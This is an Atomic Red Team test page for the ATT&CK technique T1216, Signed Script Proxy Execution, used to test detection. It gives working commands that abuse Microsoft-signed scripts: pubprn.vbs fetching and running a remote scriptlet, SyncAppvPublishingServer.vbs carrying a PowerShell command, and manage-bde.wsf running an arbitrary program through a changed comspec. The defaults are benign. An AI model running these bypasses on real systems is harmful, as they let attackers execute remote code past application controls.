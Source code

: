# T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

- [Atomic Test #2 - SyncAppvPublishingServer Signed Script PowerShell Command Execution](#atomic-test-2---syncappvpublishingserver-signed-script-powershell-command-execution)

- [Atomic Test #3 - manage-bde.wsf Signed Script Command Execution](#atomic-test-3---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/src/T1216.sct|


#### Attack Commands: Run with `command_prompt`! 
```
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```






<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServer Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServer script with options to execute an arbitrary PowerShell command.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|


#### Attack Commands: Run with `command_prompt`! 
```
C:\windows\system32\SyncAppvPublishingServer.vbs "\n;#{command_to_execute}"
```






<br/>
<br/>

## Atomic Test #3 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `command_prompt`! 
```
set comspec=#{command_to_execute}
cscript manage-bde.wsf
```

#### Cleanup Commands:
```
set comspec=C:\Windows\System32\cmd.exe
```





<br/>
